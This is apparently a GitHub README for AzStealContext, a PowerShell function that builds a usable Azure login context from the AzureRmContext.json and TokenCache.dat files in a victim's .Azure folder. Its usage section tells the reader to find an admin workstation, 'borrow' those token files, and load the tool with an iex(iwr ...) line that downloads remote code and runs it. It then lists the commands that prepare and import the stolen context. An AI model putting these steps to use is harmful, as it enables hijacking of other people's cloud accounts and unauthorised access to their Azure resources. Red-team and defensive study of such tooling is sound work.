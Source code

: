 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

When a user uses the Az PowerShell module a `.Azure` folder is created in the users home folder. This folder contains multiple files including the `AzureRmContext.json` and `TokenCache.dat` files. If a user has authenticated using the `Connect-AzAccount` cmdlet these files contain all the information a attacker needs to create a 'AzContext' file which is equivalent of the output from the [`Save-AzContext`](https://docs.microsoft.com/en-us/powershell/module/az.accounts/save-azcontext?view=azps-4.6.1) cmdlet. This PowerShell function automates the process a attacker would need to take to create a 'AzContext' file.

The AzureRmContext file can have multiple 'contexts'. This happens when the `Connect-AzAccount` is run multiple times by the same user with different Azure credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex((iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepare a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepare and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - To prepare a AzContext file and overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile name: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)
